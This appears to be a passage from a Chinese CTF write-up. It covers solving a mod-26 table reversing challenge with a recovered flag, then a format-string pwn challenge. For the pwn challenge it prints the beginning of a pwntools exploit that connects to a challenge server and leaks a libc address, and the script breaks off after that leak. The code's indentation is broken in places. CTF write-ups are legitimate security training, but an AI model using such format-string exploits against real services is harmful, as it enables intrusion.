 [![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t012ded707d698a752d.png)

第一个循环生成了一个表

第二个是 :表对应位置加上一个数

我们直接把函数二解密的结果 减去那个数

剩下就是还原表里面的数，仔细一看就是个mod26的表，这种我们把小于97的数再加26就行了!

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01c3ee574edb9f3bb2.png)

脚本随手写的，解密得到结果：

flag`{`decrypt_game_is_very_very_interesting`}`

逻辑分析不难，只要把握好数据的变化，题目的答案就不远了。

<br>

**Pwn**

**0x01 Pwn1**

看了下 简单的格式化字符串

[![](https://p5.ssl.qhimg.com/t012b871c57f32cf9c4.png)](https://p5.ssl.qhimg.com/t012b871c57f32cf9c4.png)

简单分析一下吧  

Scanf 格式化的字符串直接传值在getchar()里进行判断 导致存在格式化字符串漏洞

这里贴出exp



```
#!/usr/bin/env python2
# -*- coding:utf-8 -*-
from pwn import *
#switches
DEBUG = 0
LOCAL = 0
VERBOSE = 0
elf = ELF('./pwn1')
if LOCAL:
    libc = ELF('/lib/i386-linux-gnu/libc-2.23.so')
    p = process('./pwn1')#local processs
else:
    p = remote('115.28.185.220',11111)
    libc = ELF('libc32.so')
# simplified r/s function
def fms(data):
    p.recvuntil('input$')
    p.sendline('1')
    p.recvuntil('name:n')
    p.sendline(data)
# define interactive functions here
def pwn():
#leak libc_base_addr
    fms('%35$p')
    if LOCAL:
    libc_start_main_addr = int(p.recvn(10),16) - 247
    else:
    libc_start_main_addr = int(p.recvn(10),16) - 243
    libc.address = libc_start_main_addr - libc.symbols['__libc_start_main']
    print 'libc.addr =&gt; ', hex(libc.address)
```